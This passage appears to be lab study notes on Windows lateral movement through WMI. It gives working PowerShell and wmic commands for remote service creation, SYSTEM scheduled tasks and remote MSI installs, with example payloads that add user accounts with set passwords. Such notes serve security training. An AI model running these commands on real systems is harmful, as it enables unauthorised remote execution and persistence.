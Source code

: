 * Ports:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* Required Group Memberships: Administrators

```powershell
# Create a service called THMService2 using the commands:
> Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
> Name = "THMService2";
> DisplayName = "THMService2";
> PathName = "net user munra2 Pass123 /add"; # Your payload
> ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
> StartMode = "Manual"
}

# get a handle on the service and start it with the commands:
> $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
> Invoke-CimMethod -InputObject $Service -MethodName StartService

# delete the service for cleanup
> Invoke-CimMethod -InputObject $Service -MethodName StopService
> Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### 2.4. Creating Scheduled Tasks Remotely with WMI

* Ports:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* Required Group Memberships: Administrators

```powershell
# Payload must be split in Comand and Args
> $Command = "cmd.exe"
> $Args = "/c net user munra22 aSdf1234 /add"

> $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Arguments $Args
> Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
> Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"

# delete the scheduled task for cleanup
> Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### 2.5. Installing MSI packages through WMI

* Ports:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* Required Group Memberships: Administrators

```powershell
# once the MSI file is in the target system, install it with the command:
> Invoke-CimMethod -CimSession $Session -ClassName Win32_product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
# or using wmic in legacy systems
> wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
